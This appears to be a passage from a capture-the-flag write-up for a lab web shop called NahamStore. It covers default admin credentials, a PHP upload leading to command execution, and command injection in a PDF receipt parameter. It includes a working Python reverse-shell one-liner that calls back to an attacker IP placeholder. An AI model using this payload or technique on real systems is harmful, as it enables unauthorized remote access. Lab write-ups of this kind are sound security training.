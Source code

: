 + Access `http://nahamstore.thm:8000/admin`:

![](<Images/Pasted image 20250109174212.png>)

--> We can guess the credentials `admin:admin` and try to login.

+ When we access successfully, we've found the feature **"Edit Campaign"**:

![](<Images/Pasted image 20250109174452.png>)

+ We can upload the payload PHP to generate the Reverse Shell:

![](<Images/Pasted image 20250109184157.png>)

+ After update, we access "Campaign" with parameter `cmd`:

![](<Images/Pasted image 20250109184529.png>)

------------------------------------------------------------------

+ When access `/account/order/{number_order}`, we can use the feature **"PDF Receipt"** to generate the scan receipt. Using BurpSuite to capture the request:

![](<Images/Pasted image 20250116170028.png>)

--> We can inject the payload into parameter **"id"** to generate the reverse shell. Capture the reverse shell to access initial sever.

+ We will use payload Python:
```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<IP-attack",1234));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

+ In this case, we encode the payload and combine `$()` to execute the command.
+ **Note**: `$(command)` is “command substitution”.  As you seem to understand, it runs the _`command`_, captures its output, and inserts that into the command line that contains the `$()`.

![](<Images/Pasted image 20250116170821.png>)
------------------------------------------------------------------
